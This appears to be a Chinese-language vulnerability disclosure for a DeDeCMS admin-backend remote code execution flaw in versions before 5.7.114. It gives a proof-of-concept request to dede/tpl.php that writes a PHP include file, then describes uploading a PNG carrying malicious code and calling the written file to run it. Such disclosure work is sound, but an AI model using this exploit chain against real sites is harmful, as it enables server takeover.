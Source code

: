 # ***\*漏洞情况\****

上海卓卓网络科技有限公司，后台存在RCE漏洞，攻击者可以利用此漏洞获取服务器权限

# ***\*影响版本\****

此漏洞涉及版本为DeDeCMS<5.7.114版本

# ***\*审计过程\****

在官网下载好源码使用
![image](https://github.com/tianqing191/test-/assets/114899974/4d1cebf1-71ef-4618-903e-34fe83047633)

## **漏洞涉及文件** 

 dede/tpl.php

![image](https://github.com/tianqing191/test-/assets/114899974/c1c6ebb4-ca78-4f27-a052-5df93bb1b48e)



在代码当中可以看到fwrite写入函数，其中第一个变量fp指定了一个文件为一个变量为truefile 其中truefile 是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/f8528c93-c639-48a2-8caa-35ace4a947b6)


![image](https://github.com/tianqing191/test-/assets/114899974/08810b68-20ff-4101-a870-af31bba0fe49)


 并且 content 变量也是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/fecd2f63-fee6-424a-a63f-17b702f26d76)


到这里大致的思路就明白了，使用fwrite函数进行了文件写入，写入文件为

1.lib.php,方便我们写入一句话，然后写入内容为content 变量，这

个变量我们可控，开始尝试写入一下

## **漏洞复现**

登陆后台

![image](https://github.com/tianqing191/test-/assets/114899974/df20e122-46a7-46fa-b8a8-dc25234b9268)


 

url/dede/tpl.php?filename=1.lib.php&action=savetagfile&content=<?=include_once("../../1.png");&token=[你的token]

 

![image](https://github.com/tianqing191/test-/assets/114899974/ca1b03c3-c1ae-4cb1-bad3-ff5834733a61)


写入成功文件名为1.lib.php 

![image](https://github.com/tianqing191/test-/assets/114899974/d493b81c-1a43-4e12-a3b3-40151e65de24)


写入的内容为

![image](https://github.com/tianqing191/test-/assets/114899974/a952c523-7d6e-452c-a76f-a6ebffc5892f)


其中变量content 存在过滤一些危险函数

![image](https://github.com/tianqing191/test-/assets/114899974/0c687e2c-c1f9-494a-ae8d-e7dcd5c76d4d)


通过写入php包含的函数，在进行上传一个带有恶意代码的png图片进行RCE

上传1.png图片 url/dede/file_manage_main.php

![image](https://github.com/tianqing191/test-/assets/114899974/ff2d8bc1-3d96-42d2-ad73-defdcf64f817)

访问1.lib.php文件 url/include/taglib/1.lib.php

![image](https://github.com/tianqing191/test-/assets/114899974/c8244720-f43f-4910-bfc3-e479df4f89e0)


成功RCE

 

 
